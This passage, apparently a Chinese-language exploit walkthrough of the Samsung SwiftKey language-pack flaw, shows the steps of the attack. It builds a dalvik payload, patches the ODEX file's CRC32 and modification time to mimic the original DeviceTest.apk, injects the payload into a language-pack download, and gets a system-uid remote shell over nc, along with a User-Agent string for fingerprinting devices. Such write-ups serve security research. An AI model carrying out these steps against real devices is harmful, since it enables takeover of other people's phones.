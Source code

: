 创建完payload之后,我们可以通过DalvikExchange (dx)工具编译并运行它用来获取一个包含dalvik 字节代码的.jar文件.再进行一些优化,将jar push到设备生成odex

```
ANDROID_DATA=/data/local/tmp dalvikvm -cp /data/local/tmp/<payload.jar>
 com.sec.factory.entry.FactoryTestBroadcastReceiver

```

缓存文件所在目录,shell权限可读

```
shell@kltevzw:/data/local/tmp/dalvik-cache $ ls -l
       -rw-r--r-- shell    shell        3024 2014-07-18 14:09  data@local@tmp@payload.jar@classes.dex

```

将payload注入到我们语言包之后,触发下载并重启.

```
D/dalvikvm( 6276): DexOpt: --- BEGIN 'payload.jar' (bootstrap=0) ---
       D/dalvikvm( 6277): DexOpt: load 10ms, verify+opt 6ms, 112652 bytes
       D/dalvikvm( 6276): DexOpt: --- END 'payload.jar' (success) ---
       I/dalvikvm( 6366): DexOpt: source file mod time mismatch (3edeaec0 vs 3ed6b326)

```

作为 .ODEX 头的一部分,其存储CRC32以及classes.dex的修改时间,它根据原始APK的zip文件结构表：

```
unzip -vl SM-G900V_KOT49H_DeviceTest.apk classes.dex
       Archive:  SM-G900V_KOT49H_DeviceTest.apk
        Length   Method    Size  Ratio   Date   Time   CRC-32    Name
       --------  ------  ------- -----   ----   ----   ------    ----
         643852  Defl:N   248479  61%  06-22-11 22:25  f56f855f  classes.dex
       --------          -------  ---                            -------
         643852           248479  61%                            1 file

```

需要从zip文件中拉取这两点信息对载荷dex文件进行 patch,让其看上去像是从原始DeviceTest.apk生成的.请注意,CRC32以及文件修改时间并不能作为一种安全机制.需要了解的是,因为应用更新了所有缓存才需要更新.

Patching ODEX文件并触发漏洞,之后将会执行payload.因为是测试,所以这里只弹了个 shell.

```
nc 192.168.181.96 8889
       id
       uid=1000(system) gid=1000(system) groups=1000(system),1001(radio),1007(log),1010(wifi),1015(sdcard_rw),1021(gps),1023(media_rw),1024(mtp),1028(sdcard_r),2001(cache),3001(net_bt_admin),3002(net_bt),3003(inet),3004(net_raw),3005(net_admin),3009(qcom_diag),41000(u0_a31000) context=u:r:system_app:s0

```

需要注意一点:生成 odex 载荷对应特定的三星设备.也就是说不同的设备/相同设备的不同系统版本需要单独生成 odex 载荷.还好Swift输入法在http 的UA中给咱们提供了这些信息..

```
 'User-Agent': 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; SM-G900T Build/KOT49H)'

```
